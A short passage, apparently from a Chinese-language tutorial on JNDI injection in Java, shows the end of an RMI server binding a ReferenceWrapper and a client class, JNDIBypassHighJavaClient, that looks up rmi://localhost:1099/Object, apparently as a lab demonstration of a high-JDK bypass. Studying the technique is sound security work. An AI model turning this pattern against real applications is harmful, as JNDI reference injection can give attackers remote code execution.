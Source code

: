 ```java
 registry.bind("Object", referenceWrapper);  
 }  
}
```

客户端

```java
import javax.naming.Context;  
import javax.naming.InitialContext;  
  
public class JNDIBypassHighJavaClient {  
    public static void main(String[] args) throws Exception {  
        String uri = "rmi://localhost:1099/Object";  
 Context context = new InitialContext();  
 context.lookup(uri);  
 }  
}
```

